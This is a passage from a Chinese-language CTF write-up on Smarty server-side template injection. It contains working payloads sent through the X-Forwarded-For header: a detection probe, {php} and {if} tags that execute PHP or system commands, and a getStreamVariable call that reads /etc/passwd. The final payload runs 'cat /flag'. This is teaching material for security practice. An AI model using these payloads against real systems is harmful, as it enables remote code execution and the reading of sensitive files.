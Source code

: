 ```
首先测试
X-Forwarded-For: ${7*7} 回显了 $49
接着构造成 a{*comment*}b 回显了 ab 基本可以说明是Smarty模板
```

**Smarty的一些常规利用的方式**

> 1. `{$smarty.version}`
>
>   ```
>   {$smarty.version}  #获取smarty的版本号
>   ```
> 2. `{php}{/php}`
>
>   ```
>   {php}phpinfo();{/php}  #执行相应的php代码
>   ```
>
>   因为在Smarty3版本中已经废弃`{php}`标签，强烈建议不要使用。在Smarty 3.1，`{php}`仅在SmartyBC中可用
> 3. `{literal}`
>
> ```js
> <script language="php">phpinfo();</script>
> ```
>
> 这种写法只适用于`php5`环境
> 4. getstreamvariable
>
>   ```
>   {self::getStreamVariable("file:///etc/passwd")}
>   ```
>
>   在3.1.30的Smarty版本中官方已经把该静态方法删除
> 5. `{if}{/if}`
>
>   ```
>   {if phpinfo()}{/if}
>   ```
>
>   Smarty的` {if} `条件判断和PHP的if非常相似，只是增加了一些特性。`每个{if}必须有一个配对的{/if}`，也可以使用`{else} 和 {elseif}`，全部的PHP条件表达式和函数都可以在if内使用，如`||，or，&&，and，is_array()`等等，如：`{if is_array($array)}{/if}`

最后的payload

```http
X-Forwarded-For: {if system("cat /flag")}{/if}
```

## [网鼎杯 2020 朱雀组]phpweb

> 这个form表单每5秒提交一次
>
> func的值传的是要执行的函数，p的值要传参数
